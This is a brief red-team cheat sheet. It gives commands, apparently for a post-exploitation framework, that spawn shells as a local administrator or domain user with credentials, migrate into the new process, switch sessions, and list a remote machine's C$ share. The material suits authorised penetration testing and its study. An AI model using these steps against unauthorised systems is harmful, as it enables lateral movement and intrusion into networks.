 # Runas

## Injection

### 1) Do a runas to get another shell as the local administrator
    
    runas -d . -u Administrator -P 'password' -n -p C:\\windows\\SysWOW64\\notepad.exe
    runas -d . -u Administrator -P 'password' -n -p C:\\Windows\\System32\\cmd.exe


### 2) As another user

    runas -d . -u userooo -P 'Password123@' -n -p C:\\Windows\\System32\\cmd.exe


### 3) Runas a domain user
    
    runas -d domain.com -u user -P 'Password123!' -n -p C:\\windows\\SysWOW64\\notepad.exe
    runas -d domain.com -u user -P 'Password123!' -n -p C:\\Windows\\System32\\cmd.exe


### 4) Find process

    ps -e notepad


### 5) Migrate into the process

    migrate -p 11216


### 6) Use the new session

    use c4578a6f

### 7) List the C$ 

    ls //machine02.domain.com/c$
